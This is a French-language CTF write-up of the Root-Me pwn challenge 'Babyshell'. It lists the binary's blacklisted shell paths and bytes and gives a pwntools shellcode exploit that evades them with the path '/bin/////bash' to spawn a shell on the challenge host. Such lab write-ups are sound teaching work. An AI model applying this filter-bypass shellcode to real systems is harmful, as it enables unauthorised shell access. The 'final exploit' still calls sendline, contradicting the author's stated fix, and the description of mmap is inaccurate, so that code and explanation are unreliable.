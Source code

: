 # Babyshell

<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033811198585614416/unknown.png">
</p>

<br>
Ce challenge est le premier de la suite de challenge dans la catégorie pwn du CTF Root-Me. Il s'agit d'un challenge relativement simple à première vue: 
écrire un shellcode qui permet d'obtenir un shell. Cependant, on va le voir il y a un petit piège ou deux.
<br><br>

Tout d'abord, une fois le fichier téléchargé le premier réflexe est de le mettre dans Binary Ninja, et de regarder ce qu'il fait exactement. 
Le programme est relativement petit et n'a que deux fonctions importantes. 
L'une des deux est la fonction ``main``.<br><br>

## main()

<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033812795654930524/unknown.png">
</p>
<br>

La fonction est simple: <br>
1) ``mmap()`` et utilisé sur une région et la accessible en écriture, lecture et exécution. La fonction ``mmap()`` a un peu le même effet que la commande ``chmod`` sous linux, à la différence près que cette fois-ci c'est une partie de la pile, et non un fichier dont on change les permissions d'accès.
L'utilisation de cette fonction tombe donc sous le sens: le but est d'exécuter un shellcode, il faut donc pouvoir le mettre quelque part, et ensuite l'exécuter!<br>
2) On nous demande notre shellcode, puis celui-ci est passé dans la fonction ``check_shellcode()``. On reviendra bien vite à cette fonction. Cependant, si 
la ``check_shellcode()`` renvoie une autre valeur que 0, la condition n'est pas remplie et par conséquent notre shellcode ne sera pas exécuté.<br>
3) Le programme exécute le shellcode et supprime les permissions ajouté par ``mmap()``.
<br><br>

## check_shellcode()

<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033816015643103405/unknown.png">
</p>
<br>
Cette fonction n'est pas très complexe non plus, en quelques mots ce qu'elle fait c'est qu'elle cherche soit pour une chaine de caractère soit un caractère précis.
Si c'est trouvé la fonction va renvoyer une valeur différente de 0, et du coup nous empêcher d'exécuter notre shellcode.<br>
Mais quelles (chaines de) caractères sont bloqués exactement?<br>
En regardant ``BLACKLISTED_STRINGS`` on peut trouver les chaines bloquées
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033818189156585534/unknown.png">
</p>
<br>
On sait donc maintenant que ``/bin/bash``, ``/bin/sh``, ``/bin//sh`` et ``flag.txt`` sont des chaines interdites. En regardant ``BLACKLISTED_CHARS`` on peut trouver les caractères bloqués.
<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033818900451831878/unknown.png">
</p>
Et maintenant on sait que les caractères 0x20 (un espace) et 0x0a (un retour à la ligne) sont aussi interdits!

## Création d'un exploit
La première idée qui m'est venue en tête est une idée un peu plus compliquée que besoin (et au final pas forcément faisable). Et si j'appelais simplement la fonction ``fgets()`` ? Je pourrais directement écrire dans la zone exécutable et ne pas avoir à passer par la fonction ``check_shellcode()``! <br>
Je me mets donc à créer l'exploit, et la je lance! Plus qu'à attendre le shell... ou pas! Bizarrement, mon exploit est bloqué? Mmmh bizarre, j'y reviendrais plus tard mais pour le moment j'ai abandonné cette idée. Une solution bien plus simple me vient en tête. Je peux simplement utiliser ``execve()`` (j'aurais aussi pû utiliser ``system()``) et appeler ``/bin/////bash``!<br>
Cette fonction a pour but d'exécuter un programme en donnant son chemin d'accès, du coup ça exécuterait ``/bin/////bash`` et me donnerait un shell.<br>
Je me mets donc au boulot et obtiens cet exploit:<br>

```py
from pwn import *
context.arch = "amd64"

io = process('./babyshell')

shellcode = asm(shellcraft.execve("/bin/////bash"))
io.sendline(shellcode)

io.interactive()

```
*J'utilise ``shellcraft`` qui vient de pwntools pour me simplifier la vie, mais on peut aussi très bien écrire à la main le shellcode. Si vous voulez plus d'info sur ``shellcraft`` vous pouvez trouver ça [ici](https://docs.pwntools.com/en/stable/shellcraft.html)*
<br><br>
Je le lance donc en local et... toujours pas accepté! À ce moment je commence à vraiment me poser des questions et débugger mon payload. Après 5 à 10 minutes, je réalise mon erreur et sens un terrible sentiment d'epic fail. La fonction ``sendline()`` ajoute automatiquement un retour à la ligne à ce que j'envoie. Ca vous rappelle pas quelque chose le retour à la ligne? Et ouais! C'est un des caratères qui est interdit!<br>
Du coup, je modifie ``io.sendline(shellcode)`` par ``io.send(shellcode)``, je relance en local et hop! J'ai un shell. Plus qu'à modifier et tester en remote.<br>

## Exploit final
<br>

```py
from pwn import *
context.arch = "amd64"

io = remote('ctf10k.root-me.org', 5004)

shellcode = asm(shellcraft.execve("/bin/////bash"))
io.sendline(shellcode)

io.interactive()
```

<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033822138844598322/unknown.png">
</p>
<br>
<br>
Flag: ``RM{__tw34k1ng_sh3llc0dez_4_dumm13s!}``

## Petit mot de fin
Ce challenge n'était pas extrêmement compliqué, mais c'était chouette de le résoudre. J'ai bien aimé le CTF en général et j'espère que tous ceux qui y ont joué ont eu autant de fun que moi!
